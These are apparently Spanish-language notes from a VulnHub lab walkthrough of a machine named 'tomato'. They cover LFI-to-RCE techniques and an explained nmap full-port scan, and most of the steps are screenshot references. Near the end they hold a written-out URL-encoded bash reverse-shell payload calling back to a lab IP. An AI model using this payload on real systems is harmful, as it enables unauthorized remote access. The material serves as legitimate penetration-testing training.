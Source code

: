 [[Vulnhub]]
Lunes 25 de agosto del 2023 Mexico.
CDMX-Polanco
Valente Spiegel
![[Pasted image 20230808142013.png]]

---
# Habilidades

Web Enumeration  <br>Local File Inclusion (LFI) through info.php file  <br>LFI to RCE (Way 1) [Abusing PHP filters chain]  <br>LFI to RCE (Way 2) [Log Poisoning via SSH logs]  <br>Linux Kernel < 4.13.9 Ubuntu 16.04 Exploitation [Privilege Escalation]|

---

# Creación de directorios para espacio de trabajo.

Es importante crear directorios o espacios de trabajo específicos al resolver una máquina.
Al crear un directorio o espacio de trabajo dedicado para una máquina de VulnHub, puedes mantener ordenada toda la información relacionada con esa máquina en un solo lugar. Esto incluye archivos de configuración, resultados de escaneos, notas y cualquier otro dato relevante. Una estructura organizada facilita el seguimiento del progreso, el acceso rápido a la información y la revisión posterior de los pasos realizados.

```java
mkdir tomato && cd tomato && mkdir {Scan,Content,Exploits,Evidencia}
```
---

==Escaneo de puertos:

Se realiza un escaneo más detallado de los puertos abiertos identificados durante la fase de descubrimiento. Esto implica el uso de herramientas como Nmap para obtener información sobre los servicios y versiones específicas que se ejecutan en cada puerto.

```java
Sudo nmap -p- --open -sS --min-rate 5000 -vvv - n - Pn 192.168.153.128

El comando "sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.153.128" es una forma de utilizar la herramienta de escaneo de red Nmap con una serie de opciones y argumentos específicos. Aquí está el significado de cada opción utilizada en el comando:

- `sudo`: Ejecuta el comando con privilegios de superusuario para obtener un escaneo más completo y preciso.

- `nmap`: El comando en sí para ejecutar Nmap.

- `-p-`: Escanea todos los puertos, desde el puerto 1 hasta el puerto 65535. Esto permite una exploración exhaustiva de todos los puertos abiertos en el objetivo.

- `--open`: Muestra solo los puertos que están abiertos y disponibles para conexiones.

- `-sS`: Realiza un escaneo TCP SYN. Envia un paquete SYN al puerto de destino y espera una respuesta SYN-ACK. Este tipo de escaneo se utiliza para determinar qué puertos están abiertos.

- `--min-rate 5000`: Establece la tasa mínima de paquetes enviados por segundo a 5000. Esto controla la velocidad del escaneo, asegurando que se envíen suficientes paquetes para obtener resultados precisos.

- `-vvv`: Establece el nivel de verbosidad a "muy, muy, muy" alto, lo que proporciona una salida detallada y exhaustiva durante el escaneo.

- `-n`: Desactiva la resolución de nombres de hosts para acelerar el escaneo y evitar consultas DNS.

- `-Pn`: Suprime la detección de hosts y trata todas las direcciones IP especificadas como hosts activos. Esto puede ser útil si se desea escanear un objetivo incluso si no hay respuesta a los pings.

- `192.168.153.128`: Es la dirección IP del objetivo que se va a escanear.

```


![[Pasted image 20230808141944.png]]
![[Pasted image 20230808142345.png]]
![[Pasted image 20230808142438.png]]
![[Pasted image 20230808142748.png]]
![[Pasted image 20230824132332.png]]
![[Pasted image 20230824132501.png]]

![[Pasted image 20230824132825.png]]

![[Pasted image 20230824170758.png]]

![[Pasted image 20230824171724.png]]
![[Pasted image 20230824173155.png]]
![[Pasted image 20230824173216.png]]

![[Pasted image 20230825110512.png]]

![[Pasted image 20230825110715.png]]

![[Pasted image 20230825113250.png]]

![[Pasted image 20230825113444.png]]

![[Pasted image 20230825120425.png]]

![[Pasted image 20230825120455.png]]
![[Pasted image 20230825121306.png]]


![[Pasted image 20230825121416.png]]

![[Pasted image 20230825121545.png]]
![[Pasted image 20230825121717.png]]
![[Pasted image 20230825122320.png]]

![[Pasted image 20230825122545.png]]

![[Pasted image 20230825122652.png]]
&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.153.152/4433 0>%261"

![[Pasted image 20230825124547.png]]

![[Pasted image 20230825124609.png]]
![[Pasted image 20230825130035.png]]

![[Pasted image 20230825130120.png]]

![[Pasted image 20230825130234.png]]


![[Pasted image 20230825130513.png]]

![[Pasted image 20230825131010.png]]

![[Pasted image 20230825133311.png]]

![[Pasted image 20230825133500.png]]
![[Pasted image 20230825134552.png]]

